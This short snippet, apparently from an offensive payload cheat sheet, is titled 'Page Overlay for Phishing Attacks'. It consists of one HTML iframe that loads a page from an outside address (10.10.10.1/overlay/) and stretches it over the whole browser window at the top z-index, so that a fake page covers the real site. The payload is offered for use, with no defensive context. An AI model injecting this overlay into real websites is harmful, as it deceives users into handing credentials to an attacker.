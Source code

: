 
## Page Overlay for Phishing Attacks

```
<iframe src="http://10.10.10.1/overlay/" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">
  Your browser doesn't support iframes.
</iframe>
```
